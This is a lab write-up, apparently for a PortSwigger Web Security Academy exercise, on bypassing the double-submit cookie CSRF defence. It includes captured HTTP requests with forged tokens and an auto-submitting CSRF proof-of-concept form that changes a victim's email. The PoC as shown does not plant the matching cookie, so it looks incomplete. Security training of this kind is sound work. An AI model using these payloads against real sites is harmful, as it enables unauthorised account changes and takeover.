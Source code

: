 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5e3c5679-cfe8-4604-88d1-27aff3ccef53)


## Overview :

Sites also commonly use a **double-submit cookie as a defense against CSRF**. In this technique, the state-changing request contains the same random token as both a cookie and a request parameter, and  the server checks whether the two values are equal. If the values match, the request is seen as legitimate. Otherwise, the application rejects.

If the application uses double-submit cookies as its CSRF defense mechanism, it’s probably not keeping records of the valid token server-side. If the server were keeping records of the CSRF token server-side, it could simply validate the token when it was sent over, and the application would not need  to use double-submit cookies in the first place. 

The **server has no way of knowing if any token it receives is actually legitimate; it’s merely checking that the token in the cookie and the token in the request body is the same**. 

_Bypass this restriction by providing same non legitimate token in both request & body -_

```http
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
(POST request body)
new_password=abc123&csrf_token=not_a_real_token
```


## Solution :

When we login as wiener using the credentials `wiener:peter` , we can see that there is an option to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/81496866-9b48-4acd-b45e-cdf53f282194)


When we click _update email_ , browser sends a POST request to `/my-account/change-email` endpoint.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=1TDOBkXU3oUy8w85YeFN3gToHBVAdw5q; csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
```
We can see that there is a **double submit of csrf token** in the cookie and request parameter. 

**This means that the server is not storing csrf tokens on server side instead it is just comparing whether both the tokens are same . If yes then it accepts the request else it rejects.**

So to bypass this , we can give any random token of the same length (the server might be checking the length of the token also) both in cookie and in request parameter.

> Also change the email to any other email which is not used.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=1TDOBkXU3oUy8w85YeFN3gToHBVAdw5q; csrf=AFA3EGFGU6OAw4AGFFSB784JHFKFFAFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=pwned%40user.net&csrf=AFA3EGFGU6OAw4AGFFSB784JHFKFFAFG
```
Now generate a POC.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="AFA3EGFGU6OAw4AGFFSB784JHFKFFAFG" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```






